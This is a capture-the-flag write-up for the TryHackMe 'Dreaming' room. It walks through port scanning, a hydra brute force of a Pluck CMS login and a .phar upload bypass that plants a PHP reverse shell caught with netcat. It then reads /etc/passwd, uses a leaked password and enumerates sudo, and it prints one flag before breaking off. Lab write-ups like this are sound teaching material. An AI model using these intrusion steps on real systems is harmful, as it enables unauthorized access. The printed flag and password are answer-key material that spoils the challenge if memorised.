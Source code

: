 # thm-writeup-dreaming
Dreaming writeup
![[Pasted image 20241218143850.png]]

## The intro
Difficult level: **Easy**
Estimated time to complete: **45 mins**

Let's see what we're working with, not much at all to be honest, but who needs long introductions?

_Solve the riddle that dreams have woven._
Mysterious, don't we like riddles, and we do like dreaming.

_While the king of dreams was imprisoned, his home fell into ruins. 
Can you help Sandman restore his kingdom?_

Let's go save the kingdom and maybe turn it into a democracy.

## The hunt
Let's start with some good old Reconnaissance with the OG `nmap`
`nmap -p- -T4 <target-ip>`
	because no port left behind (`-p-`)
	and we don't have time to be stealthy (`-T4`) 
	![[Pasted image 20241219104314.png]]
Would you look at that, we got ourselves an open http port and an ssh one, let's see what's at that address from our bowsers.

Navigate to `<target-ip>` from firefox: looks like we are dealing with an Apache2 server, let's keep it in mind for the future.
![[Pasted image 20241219104744.png]]

Meanwhile let's see what else we can find, `gobuster` to the rescue!
`gobuster dir -u <target-ip> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r`
	append `dir`
	to our address `-u <target-ip>`
	use the directory list provided `-w <provided-list>`
	and follow the redirections `-r`
Looks like we got an `/app` directory, let's see what's there
![[Pasted image 20241219105402.png]]
`pluck-4.7.13` what's that? let's google it!
mmh first results look promising, who doesn't like [Remote Code execution vulnerability](https://www.exploit-db.com/exploits/49909)? 
![[Pasted image 20241219105634.png]]
```
Description:
A file upload restriction bypass vulnerability in Pluck CMS before 4.7.13 allows an admin
privileged user to gain access in the host through the "manage files" functionality,
which may result in remote code execution.
```
Let's go!
Firstly, let's go into the pluck folder:
![[Pasted image 20241219105924.png]]

Following the exploit instructions let's click on "admin" and land on the login page, this is what we find: a form input for a password, no username, a commented `bogus` input? 
![[Pasted image 20241218161831.png]]

let's `hydra` the `fuzz` out of this:
`hydra -l admin -P /usr/share/wordlists/rockyou.txt <target-ip> http-post-form "/app/pluck-4.7.13/login.php:cont1=^PASS^&bogus=&submit=Log+in:F=Invalid" -V`

![[Pasted image 20241218162034.png]]
password is `password`, I could have guessed that!
Ok we are in, let's follow the exploit: we can go to pages > manage files and upload a shell
![[Pasted image 20241219110642.png]]
and we see
![[Pasted image 20241219110904.png]]
let's get our usual php shell from the attack box, or ask AI to create one, whatever is easier:
`cat /usr/share/webshells/php/php-reverse-shell.php > myshell.php.phar`
`nano myshell.php.phar`
then we add our attack box ip and a random port, I like to go for `666` - for no particular reason.
let's also start ourselves an netcat listener at our `666` port
`nc -lvnp 666`
**Note**: if we try to upload a file with just `.php`  extension, `.txt` extension is appended, ruining all the fun, that .`phar` let's us bypass that.

Now, let's navigate to the shell, we do so by clicking on the lens:
![[Pasted image 20241219112116.png]]

Aaaand we're in!
![[Pasted image 20241219111823.png]]
But this shell is lame, let's upgrade it and make our lives a bit easier:
`python3 -c 'import pty; pty.spawn("/bin/bash")'`

Now more reconnaissance, or, as I like to call it, increasingly desperate search for SOMETHING
`whoami` > `www-data` laaaame
- `cat /etc/passwd`
	![[Pasted image 20241218235644.png]]

cool so we have lucien, death and morpheus, incidentally the owners of the flags we need to find. 
`cat /home/lucien/lucien_flag` > permission denied
and same goes for the other two. 
One thing is clear, we need to **ESCALATE PRIVILEDGE**.
Let's keep looking: aimlessly go around the server and look for anything interesting, despair, pray the cybersecurity Gods, curse the cybersecurity gods, talk to the AI, google  franticly, ask for a hint, go take a nap.
![[Pasted image 20241219112959.png]]

`ls -la opt`
![[Pasted image 20241219113103.png]]
curious, 2 python scripts we have reading permissions for: let's read `test.py`, ah-ha! 
![[Pasted image 20241219113454.png]]
if it isn't a password for `lucien`!
`HeyLucien#@1999!`
Let's assume lucien's identity immediately! `su lucien`
Go read the damn flag! `cat /home/lucien/lucien_flag.txt`
1. **What is the Lucien Flag?**  
	_THM{TH3_L1BR4R14N}_

2. **What is the Death Flag?**  
Now that we have a password and we know we have an `ssh` port open, let's try and get ourselves a fully functioning terminal, this reverse-shell served us well but it's time to upgrade: from a new terminal tab
`ssh lucien@<target-ip>`
and it worked!
Let' see what we can do as lucien `sudo -l`

```
User lucien may run the following commands on dreaming:
(death) NOPASSWD: /usr/bin/python3 /home/death/getDreams.py
```

if we `ls -l` in `death`'s folder we see
![[Pasted image 20241219114207.png]]
so we can use python to run this getDreams.py script as `death`, but we can't edit it nor open. 

- `sudo -u death /usr/bin/python3 /home/death/getDreams.py`
![[Pasted image 20241219000931.png]]

uh, I just remembered, wasn't there a python script with the same name in `/opt` that we had reading permissions for? let's go see what is the deal with that


3. **What is the Morpheus Flag?**
